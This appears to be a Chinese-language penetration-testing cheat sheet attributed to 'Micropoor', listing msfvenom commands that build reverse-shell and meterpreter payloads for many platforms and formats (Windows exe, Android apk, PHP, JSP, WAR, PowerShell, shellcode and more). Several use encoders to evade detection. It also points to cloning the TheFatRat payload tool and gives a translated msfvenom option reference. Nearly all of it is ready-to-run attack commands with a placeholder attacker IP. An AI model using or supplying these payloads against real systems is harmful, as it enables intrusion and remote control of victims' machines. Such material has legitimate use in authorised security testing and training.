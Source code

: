 # msfvenom 常用生成 Payload 命令

### windows:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp
LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```
### mac:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho
```

### android:
```bash
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

### powershell:
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

### linux:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

### php:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### aspx:
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
### jsp:
```bash
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
```

### war:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war
```

### nodejs:
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js
```

### python:
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

### perl:
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl
```
### ruby:
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb
```

### lua:
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua
```

### windows shellcode:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### linux shellcode:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### mac shellcode:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### 便捷化payload生成：

项目地址：
https://github.com/Screetsec/TheFatRat

```bash
root@John:~/Desktop# git clone https://github.com/Screetsec/TheFatRat.git
//设置时需要挂墙
```  
![](media/492800d0d4d9ed8b762c3494bc845363.jpg)  

![](media/6eeb8e3d9370ca202dd0b45abe2e8756.jpg)  

![](media/a43ce02f6b76b5f01b8697c215bad11d.jpg)  

![](media/58459088b75ecdcc093e435a5a586638.jpg)  


### 附录：

中文使用说明：
```bash
Options:

-p, --payload <payload> 使用指定的payload
--payload-options 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload

(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件
```


<p align="right">--By  Micropoor </p>
